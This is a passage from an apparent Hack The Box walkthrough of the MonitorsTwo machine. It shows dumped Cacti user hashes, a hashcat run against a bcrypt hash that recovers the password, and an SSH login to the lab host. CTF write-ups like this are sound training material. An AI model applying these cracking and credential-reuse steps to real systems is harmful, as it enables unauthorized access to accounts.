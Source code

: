 ```shell
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | on        | on           | 3              |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |           0 |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  | on     |               0 |        0 |  2135691668 |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

```

We have three user however, my experience in hack the box machines tells me we can't crack the admin hash so let's try with marcus. The hash type is a Unix blowfish, you can look it up in [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)

```shell
$ hashcat -m 3200 hash2 ~/wordlist/rockyou.txt
...
$ hashcat -m 3200 hash2 ~/wordlist/rockyou.txt --show
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

Using this user a password in cacti prompts with a message saying `` You do not have access to any area of Cacti. Contact your administrator. `` Thus, let's try ssh.

```shell
ssh marcus@10.10.11.211
marcus@10.10.11.211's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 30 May 2023 03:32:28 PM UTC

  System load:                      1.52
  Usage of /:                       63.2% of 6.73GB
  Memory usage:                     27%
  Swap usage:                       0%
  Processes:                        279
  Users logged in:                  1
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:e2d3

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```